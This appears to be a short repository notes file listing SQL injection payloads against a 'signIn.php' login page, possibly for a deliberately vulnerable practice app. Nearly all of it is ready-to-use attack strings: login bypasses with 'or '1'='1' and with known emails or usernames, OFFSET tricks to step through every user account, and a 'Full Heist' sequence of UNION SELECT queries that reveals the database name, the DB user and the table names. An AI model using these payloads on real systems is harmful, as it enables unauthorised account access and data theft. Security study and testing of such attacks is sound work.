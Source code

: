 - Auth Bypass on signIn.php

  1. username => 'or '1'='1' -- '
  2. You can use this attack to get the first user, if you do not any username prior to your attempt.

- Auth Bypass with any field that may be publicly available

  1. username => 'or email='smb@gmail.com' -- '

- Auth a specific user by a known unique field
  username => 'or username='smb' -- '
  or
  username => 'or email='smb@gmail.com' -- '

## Full Heist

- Get number of fields returned

  1. username = fsdfs' UNION SELECT 1, 2, 3 -- '
  2. The fsdfs is just random text to make the username query fail, since fsdfs is most likely not a real username in the system
  3. Progressively increase the number of comma-separated values in the SELECT, until if doesn't fail

- Get DB name and DB user account

  1. username = fsdfs' UNION SELECT DATABASE(), user() -- '

- Get first table name, using DB name obtained above

  1. fsdfs' UNION SELECT table_name, 1 FROM INFORMATION_SCHEMA.tables WHERE table_schema='test' -- '

- Get all table names, using DB name obtained above

  1. fsdfs' UNION SELECT GROUP_CONCAT(table_name), 1 FROM INFORMATION_SCHEMA.tables WHERE table_schema='test' -- '

- Auth Bypass with any skipping through

  1. username => 'or '1'='1' LIMIT 1 OFFSET 2 -- '
  2. OFFSET is the key value here. This way, you can go through the whole table.
